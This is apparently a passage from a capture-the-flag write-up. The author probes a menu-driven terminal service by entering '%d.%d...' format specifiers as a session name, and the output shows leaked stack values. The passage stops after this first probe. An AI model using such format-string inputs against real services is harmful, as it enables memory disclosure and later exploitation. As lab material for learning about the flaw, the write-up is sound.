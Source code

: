 ```
ACCESS CODE: 

                      /´¯/) 
                    ,/¯  / 
                   /    / 
             /´¯/'   '/´¯¯`·¸ 
          /'/   /    /       /¨¯\ 
        ('(   ´   ´     ¯~/'   ') 
         \                 '     / 
          ''   \           _.·´ 
            \              ( 
              \__-_-____-___\   



--------------------------------------------------------------
SESSION: ID-6897
  AUTH   [Y]    REPORT [N]    MENU   [Y]  
--------------------------------------------------------------


1  - CREATE REPORT
2  - VIEW CODE REPOSITORY
3  - UPDATE SESSION NAME
4  - SHELL
5  - LOG OFF

ENTER COMMAND: 
```

OK, this time, the administrator is a little bit pissed with me appearently LOL.

Let's try to pass a series of decimal format strings: 

```
--------------------------------------------------------------
SESSION: 
D-689
  AUTH   [Y]    REPORT [N]    MENU   [Y]  
--------------------------------------------------------------


1  - CREATE REPORT
2  - VIEW CODE REPOSITORY
3  - UPDATE SESSION NAME
4  - SHELL
5  - LOG OFF

ENTER COMMAND: 3
SELECTED: 3
ENTER NEW SESSION NAME: %d.%d.%d.%d.%d.%d.%d.%d
--------------------------------------------------------------
SESSION: -1076080660.260.623797285.1680158308.778315054.623797285.1680158308.174335278
ue
  AUTH   [Y]    REPORT [N]    MENU   [Y]  
--------------------------------------------------------------


1  - CREATE REPORT
2  - VIEW CODE REPOSITORY
3  - UPDATE SESSION NAME
4  - SHELL
5  - LOG OFF

```